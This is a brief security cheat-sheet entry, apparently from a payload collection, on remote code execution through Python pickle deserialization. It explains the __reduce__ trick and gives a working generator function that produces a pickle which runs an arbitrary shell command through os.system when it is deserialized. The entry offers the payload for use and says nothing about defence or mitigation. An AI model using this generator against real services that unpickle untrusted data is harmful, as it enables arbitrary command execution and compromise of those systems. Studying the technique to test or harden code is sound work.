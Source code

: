 # Python


## RCE deserialization using Pickle

You can execute code during the deserialization process. You need to create
an object with a [`__reduce__`](https://docs.python.org/3.6/library/pickle.html#object.__reduce__) method.
This method should return a tuple of elements :
- The first being a callable
- The others arguments

Here is a function to generate a string:

```python
import pickle

def generate_pickle(cmd):

    class PickleRCE(object):
        def __reduce__(self):
            import os
            return (os.system, (cmd,))

    return pickle.dumps(PickleRCE())

print(generate_pickle('{CMD}'))
```
